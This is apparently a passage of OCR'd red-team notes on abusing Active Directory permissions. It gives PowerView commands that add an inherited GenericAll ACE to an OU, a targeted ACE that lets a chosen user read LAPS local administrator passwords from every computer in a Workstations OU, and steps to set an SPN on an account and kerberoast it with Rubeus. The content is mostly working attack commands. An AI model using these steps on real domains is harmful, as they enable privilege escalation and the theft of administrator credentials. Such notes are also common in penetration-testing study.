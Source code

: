 			- The simplest and most straight forward way to abuse control of the OU is to apply a GenericAll ACE on the OU that will inherit down to all object types. Again, this can be done using PowerView. This time we will use the New-ADObjectAccessControlEntry, which gives us more control over the ACE we add to the OU.
				- Reference the OU by its ObjectGUID, not its name.
				- Will need the GUID for all objects. This should be 00000000-0000-0000-0000-000000000000
				- `$Guids = Get-DomainGUIDMap`
				- `$AllObjectsPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'All'} | select -ExpandProperty name`
			- Construct the ACE. This command will create an ACE granting the "JKHOLER" user full control of all descendant objects.
				- `$ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity 'JKOHLER' -Right GenericAll -AccessControlType Allow -InheritanceType All -InheritedObjectType $AllObjectsPropertyGuid`
			- Apply the ACE to the target OU.
				- `$OU = Get-DomainOU -Raw (OU GUID)`
				- `$DsEntry = $OU.GetDirectoryEntry()`
				- `$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'`
				- `$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)`
				- `$dsEntry.PsBase.CommitChanges()`
		- Targetted Descendent Object Takeover
			- Example: grant the "ITADMIN" user the ability to read the LAPS password from all computer objects in the "Workstations" OU
		```PowerShell
		$Guids = Get-DomainGUIDMap
		$AdmPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'ms-Mcs-AdmPwd'} | select -ExpandProperty name
		$CompPropertyGuid = $Guids.GetEnumerator() | ?{$_.value -eq 'Computer'} | select -ExpandProperty name
		$ACE = New-ADObjectAccessControlEntry -Verbose -PrincipalIdentity itadmin -Right ExtendedRight,ReadProperty -AccessControlType Allow -ObjectType $AdmPropertyGuid -InheritanceType All -InheritedObjectType $CompPropertyGuid
		$OU = Get-DomainOU -Raw Workstations
		$DsEntry = $OU.GetDirectoryEntry()
		$dsEntry.PsBase.Options.SecurityMasks = 'Dacl'
		$dsEntry.PsBase.ObjectSecurity.AddAccessRule($ACE)
		$dsEntry.PsBase.CommitChanges()
		```

- Set SPN on target account and kerberoast
	1. `Set-DomainObject -Identity kekw -Set @{serviceprincipalname="kekw/CTHULHU"}`
	2. `Rubeus.exe kerberoast /user:kekw /nowrap`